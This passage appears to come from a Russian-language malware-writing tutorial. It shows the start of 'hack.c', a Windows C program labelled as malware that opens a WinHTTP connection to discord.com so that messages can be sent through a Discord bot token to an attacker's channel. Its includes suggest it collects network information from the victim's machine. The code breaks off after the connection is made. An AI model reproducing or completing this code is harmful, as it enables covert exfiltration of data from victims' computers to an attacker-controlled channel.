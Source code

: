 ![malware](./images/127/2024-07-02_17-26.png){width="80%"}

Полный исходный код выглядит так (`hack.c`):
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

```